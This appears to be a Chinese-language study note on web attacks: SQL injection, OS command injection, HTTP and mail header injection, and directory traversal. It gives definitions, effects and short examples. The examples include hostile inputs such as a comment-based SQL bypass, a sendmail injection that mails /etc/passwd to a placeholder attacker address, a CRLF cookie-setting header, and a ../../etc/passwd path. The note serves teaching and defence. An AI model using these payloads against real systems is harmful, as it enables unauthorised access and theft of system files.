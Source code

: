 #### 2.SQL注入攻击
1. 概念：SQL注入是指针对Web应用使用的数据库，通过运行非法的SQL而产生的攻击。
2. 影响：
  * 非法查看或篡改数据库内的数据
  * 规避认证
  * 执行和数据库服务器业务关联的程序
3. 案例
  * 根据输入的字段检索内容
    - 正常的：`SELECT * FROM book WHERE author='xxx' and flag=1`,(flag=1：表示可售)
    - 攻击性的：`SELECT * FROM book WHERE author='xxx' --' and flag=1`(--之后的内容会被判断为注释，flag=1的条件被忽略，然后所有图书都会被查询出来)

#### 3.OS命令注入攻击
1. 概念：是指通过Web应用，执行非法的操作系统命令达到攻击的目的。
2. 影响：
  * 让Windows或Linux操作系统的命令行启动程序
3. 案例：
  * 邮件发送：分号会被解析为分隔多个执行命令的标记
    ```
    //正常调用
    open(MALL, "| /usr/sbin/sendmail $msg")
    //攻击，会将/etc/passwd下的文件以邮件形式发送给hack@example.jp
    open(MALL, "| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp")
    ```

#### 4.HTTP首部注入攻击（被动攻击）
1. 概念：是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或者主体的一种攻击
2. 影响：
  * 设置任何Cookie信息
  * 重定向到任意URL
  * 显示任意的主体【HTTP响应截断攻击（HTTP Response Splitting Attack）：向首部主体内添加内容的攻击】
3. 案例
  * 设置任意Cookie信息
    - 正常：`Location: http://example.com/?cat=101`(101是外部传入的)
    - 攻击：将`101%0D%0ASet-Cookie:+SID=123456`，会解析成如下的响应
      ```
      Location: http://example.com/?cat=101 (%0D%0A:换行符)
      Set-Cookie: SID=123456
      ```
  * HTTP响应截断攻击：利用`%0D%0A%0D%0A`作出HTTP首部与主体分隔所需的空行。这样显示的主体是伪造的。

#### 5.邮件首部注入攻击
1. 概念：是指Web应用中的邮件发送功能，攻击者通过向邮件首部To或Subject内任意添加非法内容发起的攻击
2. 影响：
  * 利用存在安全漏洞的Web网站，可对任意邮件地址发送广告邮件或病毒邮件

#### 6.目录遍历攻击（路径遍历攻击）
1. 概念：是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。
2. 案例：
  * 文件名通过外部指定。正常: `http://example.com/read.php?log=0401.log`，不正常: `http://example.com/read.php?log=../../etc/passwd`。
